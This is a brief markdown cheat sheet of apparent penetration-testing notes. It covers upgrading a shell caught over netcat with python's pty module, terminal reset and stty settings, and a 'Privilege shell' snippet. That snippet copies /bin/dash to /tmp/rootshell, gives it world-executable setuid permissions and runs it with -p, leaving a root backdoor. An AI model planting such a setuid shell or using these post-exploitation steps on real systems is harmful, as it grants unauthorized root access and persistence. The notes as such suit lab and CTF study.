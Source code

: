# Misc

## Tricks to upgrade shell on bad netcat connection

python -c 'import pty; pty.spawn("/bin/bash")'
 
## Upgrade shell trick
 
$ reset\
$ export SHELL=bash\
$ export TERM=xterm-256color\
$ stty -raw echo\
$ stty rows \<num\> columns \<cols\>

## List columns and rows on terminal
stty -a\
stty size

## Privilege shell

```sh
cp /bin/dash /tmp/rootshell; chmod 4777 /tmp/rootshell
/tmp/rootshell -p
```
